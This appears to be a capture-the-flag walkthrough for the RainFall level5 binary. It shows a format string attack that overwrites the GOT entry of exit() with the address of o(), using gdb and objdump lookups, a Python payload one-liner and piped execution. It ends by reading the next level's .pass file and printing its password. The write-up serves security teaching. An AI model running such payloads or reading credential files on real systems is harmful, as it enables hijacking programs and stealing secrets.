 # Walkthrough

**Main** : 
The goal is to to manipulate `printf()` function to calling `o()` using a format string attack  inside `n()` instead of exit
To do it we have to replace the address of `exit` in the `n()`  with the address of `o()`, for calling it instead of exit.
  
**Format `n`**:  
>  This format tell `printf` to write the number of characters printed
>     to a specified address,  number of characters that are successfully
>     written so far to the stream or buffer. <br/> `%[number]$n` : This
>     format  corresponds to the position of the address on the stack.

## Step 1

### Get address of o()

    (gdb) print &o 
    $1 = (<text variable, no debug info> *) 0x80484a4 <o>

### Get address of n()

    (gdb) print &n
    $5 = (<text variable, no debug info> *) 0x80484c2 <n>
    (gdb) 

### Get address of exit()
```
level5@RainFall:~$ objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```
## Step 2 
### Identify  the positiona of argument is our input

```
level5@RainFall:~$ python -c 'print "aaaa" + " %x" * 5' | ./level5
aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520
```
*The buffer the located at the 4th postion on the stack*

## Step 3 

### Step 1 : Create payload

The address `08049838` it convert in little-endian format `'\x38\x98\x04\x08'`
`o()` address in decimal  `134513824`

```
python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/payload
```

### Step 2 : Load payload
```
 cat /tmp/payload - | ./level5
```

### Step 3: Get password
```
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

